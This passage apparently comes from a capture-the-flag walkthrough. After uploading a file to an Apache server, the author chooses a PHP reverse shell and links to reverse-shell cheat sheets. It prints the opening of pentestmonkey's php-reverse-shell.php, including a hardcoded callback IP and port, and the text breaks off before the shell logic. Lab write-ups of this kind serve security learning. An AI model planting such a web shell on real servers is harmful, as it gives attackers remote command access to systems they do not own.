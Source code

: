        - Great😃, successful upload
- we have discovered that the server running is apache, so we should use PHP reverse shell
- we can find a reverse shell in “/usr/share/webshells/php" in kali Linux or we can use [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  or [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)
- I will use PHP reverse shell in /usr/share/webshells/php kali Linux

```php
php-reverse-shell.php                  
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.63.222';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```